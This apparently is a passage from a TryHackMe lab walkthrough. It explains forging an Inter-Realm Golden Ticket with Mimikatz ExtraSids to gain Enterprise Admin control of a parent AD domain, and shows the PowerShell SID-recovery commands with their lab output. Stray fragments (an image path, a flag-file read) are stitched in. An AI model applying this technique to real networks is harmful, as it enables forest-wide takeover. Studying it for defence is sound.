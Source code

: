 ```shell-session
 lm - 0: removed
[....]
```

## Inter-Realm TGTs

Using the KRBTGT password hash, we could now forge a Golden Ticket to access any resource in the child domain. This will also be discussed in more detail in the Persisting AD room. However, we can take this a step further by forging an Inter-Realm TGT. Inter-Realm TGTs are used to provide access to resources in other domains. In our case, we want to exploit the bidirectional trust relationship between the child and parent domain to gain full access to the parent domain.

We will include extra account SIDs from other domains when we construct the Golden Ticket to perform this exploit. Mimikatz can assist with this, allowing us to set the ExtraSids section of the KERB_VALIDATION_INFO structure of the Kerberos TGT. The ExtraSids section is described as â€œA pointer to a list of KERB_SID_AND_ATTRIBUTES structures that contain a list of SIDs corresponding to groups in domains other than the account domain to which the principal belongsâ€.

The key here is that we will exploit the trust the parent domain has with our child domain by adding the SID of the Enterprise Admins (EA) group as an extra SID to our forged ticket for the domain controller of the child domain. The EA group belongs to the parent domain and membership to this group essentially grants Administrative privileges over the entire forest! The default SID for this group is `S-1-5-21-<RootDomain>-519`.

Before we can go into exploitation, we first need to recover two SIDs:

- The SID of the child domain controller (THMDC), which we will impersonate in our forged TGT 
- The SID of the Enterprise Admins in the parent domain, which we will add as an extra SID to our forged TGT

To recover these SIDs, we can use the AD-RSAT Powershell cmdlets. We can recover the SID of the child domain controller using the following command:


```shell-session
PS C:\> Get-ADComputer -Identity "THMDC"

DistinguishedName : CN=THMDC,OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DNSHostName : THMDC.za.tryhackme.loc
Enabled : True
Name : THMDC
ObjectClass : computer
ObjectGUID : bd651750-782b-4b09-93b4-b5987ec7311b
SamAccountName : THMDC$
SID : S-1-5-21-3885271727-2693558621-2658995185-1001
UserPrincipalName :
```

We can recover the SID of the Enterprise Admins group using the following command to query the parent domain controller:

```shell-session
PS C:\> Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc

DistinguishedName : CN=Enterprise Admins,CN=Users,DC=tryhackme,DC=loc
GroupCategory : Security
GroupScope : Universal
Name : Enterprise Admins
ObjectClass : group
ObjectGUID : a23ae384-16e8-44d5-9b36-8173c4e0e5de
SamAccountName : Enterprise Admins
SID : S-1-5-21-3330634377-removed-519
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt